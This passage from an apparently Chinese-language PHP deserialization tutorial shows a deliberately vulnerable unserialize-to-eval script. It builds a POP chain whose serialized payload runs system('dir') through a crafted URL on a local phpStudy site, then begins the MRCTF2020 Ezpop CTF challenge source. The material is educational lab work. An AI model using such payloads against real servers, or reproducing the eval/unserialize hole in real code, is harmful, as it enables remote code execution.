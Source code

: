 ```php
    public $data;
    function action() {
        eval($this->data);
    }
}

$a = new pop();
unserialize($_GET['s']);
```
本地用phpStudy搭建了php网站，并把上述内容保存在test.php中，放在网站根目录下，这样可以访问。

代码中`pop`类的成员变量`$ClassObj`可以传入类对象，但类对象必须包含一个`action`方法，以便在对象析构时`__destruct`方法可以调用。

而`shell`类正好有此方法，该方法执行了eval函数且变量可控，因此构造pop链如下代码：
```php
<?php
class pop {
    public $ClassObj;
}

class shell {
    public $data;
}

$a = new pop();
$a->ClassObj = new shell();
$a->ClassObj->data = "system('dir');";  // 这里输入要执行的命令
echo serialize($a);
?>
```
运行结果：
```
O:3:"pop":1:{s:8:"ClassObj";O:5:"shell":1:{s:4:"data";s:14:"system('dir');";}}
```
构造url：http://127.0.0.1/test.php?s=O:3:"pop":1:{s:8:"ClassObj";O:5:"shell":1:{s:4:"data";s:14:"system('dir');";}} 即可看到返回结果为目录。

#### 2. 示例2 BUUCTF WEB题 \[MRCTF2020\]Ezpop
题目源码：
```php

<?php

class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
```